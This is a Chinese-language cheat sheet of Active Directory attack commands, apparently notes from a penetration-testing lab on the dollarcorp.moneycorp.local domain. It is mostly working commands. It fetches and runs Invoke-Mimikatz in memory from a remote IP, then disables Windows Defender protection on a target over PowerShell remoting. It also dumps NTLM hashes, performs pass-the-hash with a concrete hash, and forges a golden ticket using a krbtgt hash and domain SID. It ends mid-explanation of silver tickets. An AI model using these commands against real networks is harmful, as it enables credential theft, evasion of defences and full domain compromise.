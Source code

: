 # 引入Invoke-Mimikatz.ps1，并且在内存中执行
```
iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
```


# 横向执行Mimikatz
从上面我们已经知道当前账号ciadmin可以横向登录到计算机dcorp-mgmt.dollarcorp.moneycorp.local，我们把登录的session保存在$sess
```$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local```

指定目标靶机的session，在目标靶机关闭杀软（效果跟bypass AMSI大同小异，不过因为我们是目标靶机上的管理员，因此可以直接关闭）
```Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess```

指定目标靶机的session，在目标靶机执行Mimikatz
```Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess```


# 导出所有ntml 哈希
```
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

# 生成某个用户命令的shell（需要NTML） Over the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

# Mimikatz.ps1调用自己（适用于有Applocker策略不允许执行ps1脚本的环境）
在Invoke-Mimikatz.ps1文件的最底部，加一行命令：Invoke-Mimikatz


############################下面内容属于Domain Dominance#################################

# 制作金票
需要krbtgt和它的NTML哈希
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-
21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600
 /renewmax:10080 /ptt"'
```

验证金票：
```
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```


# 制作银票
金票和银票的分别
> 1.金票伪造的TGT(Ticket GrantingTicket)，所以可以获取任何Kerberos服务权限
> 2.银票是伪造的TGS的TS，只能访问指定的服务权限
> 3.GoldenTicket是由krbtgt的hash加密
> 4.Silver Ticket是由服务账户（通常为计算机账户）hash加密
> 5.GoldenTicket在使用的过程需要同域控通信
> 6.Silver Ticket在使用的过程不需要同域控通信

如果知道一台计算机的哈希，比如DCORP-DC$
```
RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :